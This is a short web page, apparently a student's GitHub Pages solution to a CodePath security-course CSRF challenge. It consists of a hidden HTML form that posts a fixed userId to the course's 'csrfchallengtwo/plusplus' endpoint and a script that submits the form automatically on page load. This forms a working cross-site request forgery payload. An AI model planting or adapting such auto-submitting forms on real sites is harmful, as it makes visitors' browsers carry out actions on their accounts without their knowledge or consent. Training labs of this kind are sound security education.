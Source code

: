 # JLPlummer79.github.io


<form name="csrfform" action="https://security.codepath.com/user/csrfchallengtwo/plusplus" method="POST">
  <input type="hidden" name="userId" value="2eff24c04dc96585b7fadc8b1fd6d80081c3ffdd"/>
  <input type="submit"/>
</form>

<script> document.csrfform.submit(); </script>

